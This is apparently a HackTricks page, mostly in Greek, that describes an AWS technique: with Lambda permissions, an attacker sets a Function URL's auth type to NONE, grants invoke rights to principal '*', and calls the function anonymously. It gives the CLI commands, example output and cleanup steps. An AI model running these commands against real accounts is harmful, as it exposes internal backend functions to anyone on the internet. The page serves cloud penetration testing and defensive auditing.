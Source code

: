 # AWS - Lambda Function URL Δημόσια Έκθεση (AuthType NONE + Public Invoke Policy)

Μετατρέψτε ένα ιδιωτικό Lambda Function URL σε δημόσιο, μη αυθεντικοποιημένο endpoint αλλάζοντας το Function URL AuthType σε NONE και επισυνάπτοντας μια resource-based policy που παραχωρεί lambda:InvokeFunctionUrl σε όλους. Αυτό επιτρέπει ανώνυμη κλήση εσωτερικών functions και μπορεί να εκθέσει ευαίσθητες διεργασίες backend.

## Κατάχρηση

- Προαπαιτούμενα: lambda:UpdateFunctionUrlConfig, lambda:CreateFunctionUrlConfig, lambda:AddPermission
- Περιοχή: us-east-1

### Βήματα
1) Βεβαιωθείτε ότι η function έχει Function URL (defaults to AWS_IAM):
```
aws lambda create-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

2) Switch the URL to public (AuthType NONE):
```
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type NONE
```

3) Προσθέστε δήλωση resource-based policy για να επιτρέψετε μη αυθεντικοποιημένους principals:
```
aws lambda add-permission --function-name $TARGET_FN --statement-id ht-public-url --action lambda:InvokeFunctionUrl --principal "*" --function-url-auth-type NONE
```

4) Ανακτήστε το URL και καλέστε χωρίς διαπιστευτήρια:
```
URL=$(aws lambda get-function-url-config --function-name $TARGET_FN --query FunctionUrl --output text)
curl -sS "$URL"
```

### Επιπτώσεις
- Η Lambda function γίνεται ανώνυμα προσβάσιμη μέσω του internet.

### Παράδειγμα εξόδου (μη αυθεντικοποιημένο 200)
```
HTTP 200
https://e3d4wrnzem45bhdq2mfm3qgde40rjjfc.lambda-url.us-east-1.on.aws/
{"message": "HackTricks demo: public Function URL reached", "timestamp": 1759761979, "env_hint": "us-east-1", "event_keys": ["version", "routeKey", "rawPath", "rawQueryString", "headers", "requestContext", "isBase64Encoded"]}
```
### Καθαρισμός
```
aws lambda remove-permission --function-name $TARGET_FN --statement-id ht-public-url || true
aws lambda update-function-url-config --function-name $TARGET_FN --auth-type AWS_IAM || true
```

